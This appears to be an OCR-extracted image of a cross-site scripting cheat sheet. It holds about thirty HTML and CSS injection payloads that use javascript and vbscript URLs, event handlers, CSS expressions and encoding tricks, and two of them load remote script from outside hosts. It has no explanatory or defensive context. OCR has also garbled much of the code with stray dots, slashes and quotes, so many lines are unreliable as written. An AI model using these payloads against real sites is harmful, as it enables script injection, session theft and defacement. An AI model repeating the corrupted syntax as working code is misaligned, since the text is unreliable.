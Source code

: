 ```html

<IMG src="/javascript.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"(&quot;XSS&quot;)>

<IMG SRC="jav&#x09;ascript.:alert('XSS');">

<IMG SRC="jav&#x0A;ascript.:alert('XSS');">

<IMG SRC="jav&#x0D;ascript.:alert('XSS');">

"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out

<IMG SRC=" javascript.:alert('XSS');">

<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>

<BODY BACKGROUND="javascript.:alert('XSS')">

<BODY ONLOAD=alert('XSS')>

<IMG DYNSRC="javascript.:alert('XSS')">

<IMG LOWSRC="javascript.:alert('XSS')">

<BGSOUND SRC="javascript.:alert('XSS');">

<br size="&{alert('XSS')}">

<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>

<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">

<IMG SRC='vbscript.:msgbox("XSS")'>

<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">

<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>

<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>

<TABLE BACKGROUND="javascript.:alert('XSS')">

<DIV STYLE="background-image: url(javascript.:alert('XSS'))">

<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">

<DIV STYLE="width: expression(alert('XSS'));">

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

<IMG STYLE='xss:expre\ssion(alert("XSS"))'>

<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>

<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>

<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>

<BASE HREF="javascript.:alert('XSS');//">
```